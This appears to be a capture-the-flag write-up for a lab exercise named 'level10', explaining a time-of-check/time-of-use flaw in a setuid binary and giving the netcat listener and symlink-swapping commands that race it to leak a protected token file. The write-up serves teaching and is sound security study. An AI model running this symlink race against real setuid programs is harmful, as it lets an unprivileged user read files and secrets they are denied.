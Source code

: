 In the home directory, there is a program named 'level10' and a file named 'token.'

```bash
-rwsr-sr-x+ 1 flag10 level10 10817 Mar 5 2016 level10
-rw------- 1 flag10 flag10 26 Mar 5 2016 token
```

The user level10 is unable to read 'token,' and the program has a setuid to flag10.

In the binary of the file, we can see:

- Test the access to the file:

```c
pcVar6 = in_stack_00000008[1];
param1 = in_stack_00000008[2];
iVar2 = access(in_stack_00000008[1], 4);
```

- Then connect to the address:

```c
local_24.sa_data._2_4_ = inet_addr(param1);
uVar1 = htons(0x1b39);
local_24.sa_data._0_2_ = uVar1;
iVar3 = connect(iVar2, &local_24, 0x10);
```

- And finally open the file:

```c
iVar3 = open(pcVar6, 0);
if (iVar3 == -1) {
  puts("Damn. Unable to open file");
  /* WARNING: Subroutine does not return */
  exit(1);
}
__n = read(iVar3, local_1024, 0x1000);
```

The offset between the verification of the read-write and the opening of the file allows us
the time to change the file to open another file than the one verified.

To solve this exercise, I used several commands to achieve the race condition:

First, I need to listen at port 6969:

```bash
alias listen="nc -l 6969"
```

Then I need to set a link to a file that can be read by the level10 user:

```bash
alias reset="touch /tmp/dummy ; ln -sf /tmp/dummy /tmp/link"
```

I need to start the program 'level10' to send the value of 'token' to 127.0.0.1:

```bash
alias send="./level10 /tmp/link 127.0.0.1"
```

And I need to change the file that is linked by /tmp/link between the verification and the open:

```bash
alias race="ln -sf token /tmp/link"
```

The final command combines everything and executes parallel 'listen,' 'send,' and 'race':

```bash
listen & reset ; send & race
```